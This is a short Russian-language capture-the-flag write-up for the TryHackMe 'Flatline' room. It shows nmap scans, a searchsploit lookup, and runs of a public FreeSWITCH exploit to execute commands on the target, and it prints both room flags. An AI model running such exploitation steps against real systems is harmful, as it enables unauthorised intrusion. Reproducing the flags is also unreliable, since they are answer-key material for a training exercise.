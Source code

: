 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Flatline](https://tryhackme.com/r/room/flatline) 

Всего 1 заданиe:
## Задание 1
Что такое флаги?

Загрузка и выполнение операций на этом компьютере могут происходить медленнее, чем обычно.
### Ответьте на вопросы ниже
Что такое флаг user.txt?
```commandline
nmap -sC -sV <IP>
nmap --script="rdp-*" -p 3389 <IP> -vv -Pn
searchsploit freeswitch
# https://www.exploit-db.com/exploits/47799
python3 exploit.py <IP> whoami
python3 exploit.py <IP> dir
python3 exploit.py <IP> "dir C:\\Users\\"
python3 exploit.py <IP> "dir C:\\Users\\Nekrotic\\Desktop\\"
```
```commandline
THM{64bca0843d535fa73eecdc59d27cbe26}
```
Что такое флаг root.txt?
```commandline
searchsploit openclinic
```
```commandline
THM{8c8bc5558f0f3f8060d00ca231a9fb5e}
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)